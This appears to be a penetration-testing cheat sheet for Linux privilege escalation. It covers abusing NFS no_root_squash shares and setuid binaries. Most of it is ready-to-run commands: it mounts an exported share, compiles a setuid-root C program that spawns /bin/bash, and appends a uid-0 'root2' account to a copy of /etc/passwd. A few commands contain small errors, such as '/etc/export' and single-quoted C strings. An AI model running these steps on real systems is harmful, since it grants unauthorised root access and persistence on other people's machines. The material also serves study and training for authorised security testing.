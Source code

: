#### NFS Root Squash

Check if there is a vulnerability here:
```
cat /etc/export
```

If you have some folder with no_root_squash, then you can mount that folder

Check if you can mount something
```
showmount -e $rhost
```

Create folder for remote folder
```
mkdir mountme
```

Mount that folder
```
mount -o rw,vers=2 $rhost:/remotedir /full/path/to/mountme
```

Let's create a malicious file:
```
echo "int main(){ setgid(0); setuid(0); system('/bin/bash'); return 0;}" > /mountme/x.c
```

Let's gcc this:
```
gcc /mountme/x.c -o /mountme/x
```

Then's let's use the chmod +s:
```
chmod +s x
```

Then, in your remote machine, run your x file to get root.

#### Setuid Binaries and Capabilities

```
find / -perm -u=s -type f 2>/dev/null
```

Check in [GTFOBins](https://gtfobins.github.io)

##### cp
```
cat /etc/passwd > passwd.orig
```
New password:
```
openssl passwd <Enter your password>
```

Get this output and use

Add the new user to passwd.orig
```
echo "root2:<openssl(your_password)>:0:0:root:/root:/bin/bash" >> passwd.orig
```
